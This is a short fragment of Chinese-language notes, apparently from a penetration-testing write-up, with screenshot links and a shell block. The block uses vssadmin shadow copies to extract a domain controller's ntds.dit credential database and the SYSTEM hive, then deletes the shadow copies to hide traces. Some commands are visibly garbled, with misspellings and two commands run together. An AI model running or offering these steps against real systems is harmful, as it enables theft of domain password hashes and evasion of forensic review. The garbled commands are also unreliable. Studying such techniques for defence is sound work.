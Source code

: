 ```sh
```

<img src="image/image-20230922211034183.png" alt="image-20230922211034183" style="zoom:80%;" />

<img src="image/image-20230922211236499.png" alt="image-20230922211236499" style="zoom:80%;" />

<img src="image/image-20230922212159251.png" alt="image-20230922212159251" style="zoom: 67%;" />

```sh
#②利用vssadmin提取ntds.dit
#创建c盘卷影拷贝
vssadmin create shadow /for=c:
#复制ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit
#导出system.hive文件到注册表 
copy \\?\GLOBALLROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
#删除卷影，隐藏痕迹
vssadmin delete shadows /for=C: /quiet
```
